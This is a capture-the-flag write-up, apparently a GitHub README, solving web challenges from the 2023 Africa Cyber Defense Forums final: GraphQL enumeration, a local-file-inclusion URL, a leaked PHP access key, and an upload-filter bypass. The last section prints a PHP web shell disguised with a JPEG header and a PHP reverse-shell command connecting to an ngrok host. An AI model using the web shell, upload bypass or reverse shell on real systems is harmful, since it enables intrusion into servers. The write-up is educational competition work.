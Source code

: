 ![Visitors](https://visitor-badge.laobi.icu/badge?page_id=cyberpoul.Final_ACDF_CTF_2023)
<h1> Final Africa Cyber Defense Forums Cyberlympics CTF 2023 </h1>

Team: RedTeam-TG
<br>Id: Assa

I'll give the solutions to some of the challenges that I solved but you can check the full writeups of the team here:
<br>
https://hackmd.io/@RedTeamTG/acdfctf-final-2023

#### Web
- Grandline
- Image Lookup
- Konoha
- DPO Agba
  
#### Cryptography
- What's going on 

#### Forensics
- Detective Conan 1 

#### Steganography
- Toka 
</details>

<br>
<details><summary>Web :</summary>
  
- Grandline:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/7.png" alt="img"></p>

This is an injection of graphql code, we even have a console which displays the results of the commands

First of all, we are going to do the enumeration in order to see the functions and methods that are accessible. the following payload does the trick:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/1.png" alt="img"></p>

we can notice that we have an interesting function called "flags" with the id, author, content and flag parameters.
Let's try to query the id 1 of the flags function. here I specified the content and flag parameters.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/2.png" alt="img"></p>


We notice that we have a return with the following content: "Why don't you dig harder"; the rest becomes logical we must identify the id which contains our flag. I first tried id 2 then id 3 which turned out to be the right one.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/3.png" alt="img"></p>

Flag: acdfCTF{L3t_try_s0m3_Graph_0ut}


- Image Lookup:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/6.png" alt="img"></p>

This one is an easy lfi web challenge you just had to call the flag file with the following payload: "file:///flag.txt" , paying attention to encoding the characters /
here is the query that I used to get the flag

```http://16.170.230.246/index.php?url=file%3a%2f%2f%2fflag.txt```

Unfortunately the flag is no longer accessible on the server


- Konoha:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/4.png" alt="img"></p>

we have a source.php file. let's try to analyze it:
```python
<?php
$secretFilePath = '/app/Sup3rs3cr3tFlag.txt';

$secretKey = 'Kismet-Abzee-Berrywuxxxxx';

$requestedFile = isset($_GET['file']) ? $_GET['file'] : '';

$providedKey = isset($_GET['key']) ? $_GET['key'] : '';

$decodedFile = urldecode($requestedFile);

if ($providedKey !== $secretKey) {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
    exit;
}

if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
    $secretContent = file_get_contents($secretFilePath);
    echo $secretContent;
} else {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
}
?>
```
after reading we see that the source.php script gives us the possibility of making GET type requests with the "file" and "key" parameters. key is then the secret code allowing access to the file and file must contain the name of the file. 
```
if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
     $secretContent = file_get_contents($secretFilePath);
     echo $secretContent;
}
```
the previous lines check that the file name corresponds to Sup3rs3cr3tFlag.txt and displays this secret message to us 
```echo $secretContent;```
what could be simpler we have the name of the file and the key to access it.
be careful in the key value we have hidden characters (5 characters x) 'Kismet-Abzee-Berrywuxxxxx'.
It is therefore necessary to brute force the missing x characters. the hint gave us part of the missing characters, we just had to brute force the rest to obtain the flag.
Ps: apparently the 5 missing characters x could be found in the source code of the application personally I didn't solve it like that.
here is the final request to have the flag:

```http://51.20.91.159/source.php?file=Sup3rs3cr3tFlag.txt&key=Kismet-Abzee-Berrywuzh3r3```

The flag has unfortunately been removed from the server. I unfortunately didn't take a picture when I solved it but the previous request still exact..

- DPO Agba:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/8.png" alt="img"></p>

the images from the web server are no longer accessible I'm going to do a writeup for you a little blindly lol, I would have liked to add more illustrations but hey it doesn't matter, let's go.

The first step was to decode the obfuscated data in the source code. Cyberchef made it possible:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/9.png" alt="img"></p>

when we analyze the result we can see that we have a way to upload images to the server using the upload.php file. What better way to have a shell!.
Unfortunately when we tried to upload our image, we have restrictions that prevent us from uploading php files or anything other than images and in addition the file size must not exceed more than 35 bytes. Here we need to bypass these restrictions.

We can trick the filter into thinking the .php file I want to upload is actually a .jpeg file. But I had to modify our file's header like this.

our initial payload: ```<?php system($_GET['cmd']); ?>```

but to make that work we have to change the header to that of a .jpeg file. Checking it up online I found this “FF D8 FF EE”. So, let’s change the header to that; hexed.it does the trick.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/10.png" alt="img"></p>

our final image content should look like this: ```ÿØÿî<?php system($_GET['cmd']); ?>```

Now, that we have successfully changed the header we can upload our file "cmd.php"

after that I just launched a reverse shell on my computer using a TCP connection with an ngrock server. So I was able to have a shell. The next step was to look for the flag on the server. I spent a lot of time looking for the flag before finding it one of the files on the server. 

Here the payload that I used to get the shell:<br>
```http://16.170.159.222/images/cmd.php?cmd=php+-r+'$sock%3dfsockopen("tcp://4.tcp.ngrok.io",16205)%3bexec("sh+<%263+>%263+2>%263")%3b'```
</details>
